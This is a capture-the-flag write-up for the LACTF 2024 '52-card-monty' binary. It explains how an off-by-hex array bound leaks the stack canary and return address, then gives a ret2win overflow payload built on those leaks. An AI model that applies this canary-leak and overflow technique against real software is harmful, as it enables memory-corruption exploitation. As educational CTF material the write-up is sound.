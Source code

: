 # 52-card-monty

ret2win challenge with a canary, and with PIE enabled

## checksec

```bash
[*] '/mnt/d/CTFs/LACTF 2024/52-card-monty/monty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Canary + PIE enabled

## Leaking the canary and return address

Provide 55 and 57 as inputs to leak the canary and return addresses, respectively. 

```c
printf("index of your first peek? ");
scanf("%d", &index);
leak = cards[index % DECK_SIZE];
cards[index % DECK_SIZE] = cards[0];
cards[0] = leak;
printf("Peek 1: %lu\n", cards[0]);
```

We can do this because `cards` is an array of longs of size 52, while DECK_SIZE is defined to be 0x52. 

## Sending the payload

While the char `name` buffer is only of size 20, the `fgets` call allows us to throw in up till 51 bytes of input

```c
printf("Add your name to the leaderboard.\n");
getchar();
printf("Name: ");
fgets(name, 52, stdin);
```

We therefore can generate the payload with 

```python
payload = b'A'*24 + canary + b'A'*8 + winaddr
```

and send it to win

![win image](doc_assets/win.png)